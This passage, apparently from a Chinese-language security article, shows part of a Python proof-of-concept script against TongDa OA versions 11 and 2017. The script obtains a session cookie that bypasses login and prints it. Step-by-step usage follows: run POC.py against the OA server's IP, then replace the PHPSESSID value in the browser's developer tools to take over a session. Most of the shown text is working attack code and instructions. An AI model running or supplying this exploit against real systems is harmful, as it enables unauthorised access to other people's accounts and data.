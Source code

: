 ```
            tmp\_cookie = res.headers\['Set-Cookie'\]
            headers\["User-Agent"\] = choice(USER\_AGENTS)
            headers\["Cookie"\] = tmp\_cookie
            check\_available = requests.get(url + '/general/index.php',headers=headers)
            if '用户未登录' not in check\_available.text:
                if '重新登录' not in check\_available.text:
                    print('\[+\]Get Available COOKIE:' + tmp\_cookie)
            else:
                print('\[-\]Something Wrong With ' + url + ',Maybe Not Vulnerable.')
        else:
            print('\[-\]Something Wrong With '+url  + ' Maybe Not Vulnerable ?')
    except:
        print('\[-\]Something Wrong With '+url)
if \_\_name\_\_ == "\_\_main\_\_":
    parser = argparse.ArgumentParser()
    parser.add\_argument(
        "-v",
        "--tdoaversion",
        type=int,
        choices=\[11, 2017\],
        help="Target TongDa OA Version. e.g: -v 11、-v 2017")
    parser.add\_argument(
        "-url",
        "--targeturl",
        type=str,
        help="Target URL. e.g: -url 192.168.2.1、-url http://192.168.2.1"
    )
    args = parser.parse\_args()
    url = args.targeturl
    if 'http://' not in url:
        url = 'http://' + url
    if args.tdoaversion == 11:
        getV11Session(url)
    elif args.tdoaversion == 2017:
        get2017Session(url)
    else:
        parser.print\_help()

```

**用法**：

```
python POC.py -v 11 -u http://本机IP \[IP为OA系统的IP\]

```

在命令行中通过该 poc 生成我们的 cookie，即 COOKIE: 后分号前的一段字符串。  

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavwYckEpxUdvbzjtL8q4MYFfibFOjMdVDp6Cibb3NicK325lCw8zGpic260vb0dbWRM3RGVIlIZbaib7Obw/640?wx_fmt=png)

复制该字符串，在刚才的网页打开 F12 进行 cookie 的替换。点击**应用程序**，找到 cookie，选择本地地址，将 PHPSESSID 的值替换成刚才生成的 cookie。  
